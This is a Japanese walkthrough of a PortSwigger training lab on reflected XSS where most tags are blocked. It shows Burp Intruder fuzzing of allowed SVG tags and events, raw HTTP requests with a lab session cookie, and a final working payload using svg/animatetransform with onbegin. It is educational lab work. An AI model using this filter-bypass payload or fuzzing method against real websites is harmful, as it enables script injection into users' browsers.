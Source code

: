 # 一部の SVG マークアップを使用したリフレクト XSS が許可される

次のハッキングラボを実施します  
このラボには単純な反映型 XSS 脆弱性があります。このサイトは一般的なタグをブロックしていますが、一部の SVG タグとイベントが欠落しています。  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動

* 2. ハッキングラボにアクセスします
* 3. 検索窓に以下を入力して検索すると怒られます

```html
<img src="1" onerror="alert(1)" />
```

結果

```
"Tag is not allowed"
```

- 4. GET /?search=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E HTTP/1.1 リクエストを send to intruder します

- 5. Intruder タブのリクエストを以下のように書き換えます

```
GET /?search=<§§> HTTP/1.1
Host: 0a3e00790482510480ef5def004f0011.h1-web-security-academy.net
Cookie: session=Gc2wgmH4g7xLcjJeVsSlW4cEPCvKEnN6
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3e00790482510480ef5def004f0011.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close
```

- 6. チートシートにアクセスして、Copy tags to Clipboard ボタンを押します  
     https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

- 7. Payload に張り付けて攻撃を開始します

     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/fd457bbf-5400-4d62-9ef2-c0a7e21c1a16)

animatetransform, image, svg, title タグはブロックされていません

- 8. 続けてリクエストを以下のように書き換えます

```
GET /?search=<svg><animatetransform%20§§=1> HTTP/1.1
Host: 0a3e00790482510480ef5def004f0011.h1-web-security-academy.net
Cookie: session=Gc2wgmH4g7xLcjJeVsSlW4cEPCvKEnN6
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3e00790482510480ef5def004f0011.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close
```

- 9.  チートシートにアクセスして、Copy tags to Clipboard ボタンを押します  
      https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

* 10. Payload に張り付けて攻撃を開始します
      ![2](https://github.com/pea-sys/web-security-experiments/assets/49807271/da5e1488-550d-40b5-add4-810c34501867)

onbegin イベントがブロックされていません

- 11. 検索結果を表示するページの search パラメータを%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E に変更するとスクリプトが実行できます。
